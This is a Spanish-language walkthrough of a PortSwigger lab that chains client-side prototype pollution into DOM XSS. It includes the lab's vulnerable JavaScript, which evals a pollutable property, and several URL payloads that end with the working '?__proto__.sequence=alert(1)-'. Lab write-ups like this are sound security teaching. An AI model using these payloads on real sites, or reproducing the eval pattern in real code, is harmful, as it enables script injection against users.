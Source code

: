 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector
---
```


# Lab 3: DOM XSS via an alternative prototype pollution vector

Al validar la siguiente carga no funciona:

```
/?__proto__[foo]=bar
```

Y se puede apreciar al ejecutar lo siguiente desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se envia otra carga:

```
/?__proto__.hacked=gerh
```

Y se logra ver que si funciono ejecutando desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se procede a analizar el codigo fuente de JS:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

El código proporcionado es susceptible a _prototype pollution_ debido a la forma en que se maneja el objeto `params` y la posibilidad de que se manipule de manera insegura. Aquí hay un análisis detallado de las razones:

1.  **Manipulación del objeto `params`**:

    ```javascript
    await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    ```

    El objeto `params` que se envía en el cuerpo de la solicitud podría ser manipulado por un atacante. Si el `params` contiene propiedades que alteran el prototipo de objetos nativos como `Object.prototype`, podría introducir propiedades no deseadas en todos los objetos de ese tipo en la aplicación.
2.  **Uso de `eval`**:

    ```javascript
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
    ```

    El uso de `eval` con datos potencialmente controlados por el usuario (`manager.sequence`) es extremadamente peligroso. Esto permite la ejecución de código arbitrario, lo que podría explotarse para modificar el prototipo de objetos globales.
3.  **Dependencia de `$.parseParams`**:

    ```javascript
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
            }};
    ```

    La función `$.parseParams` podría ser manipulada para introducir propiedades maliciosas en `params`. Si `params` se construye a partir de una cadena de consulta controlada por el usuario, esto abre la puerta a la contaminación del prototipo.

Por lo anterior, enviamos la siguiente carga:

```
/?__proto__.sequence=alert(1)
```

Y lo anterior, genero el siguiente error:

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

La anterior payload no funciono y no genero el XSS.

Si analizamos con el debugger, se logra apreciar que el payload se le esta agregando "1" al final:

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo anterior es debido a la linea 16 que suma la variable mas "1".

Teniendo en cuenta lo anterior, enviaremos una carga adicionando el caracter "-".

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

La carga utilizada para desplegar el XSS fue la siguiente:

```
?__proto__.sequence=alert(1)-
```

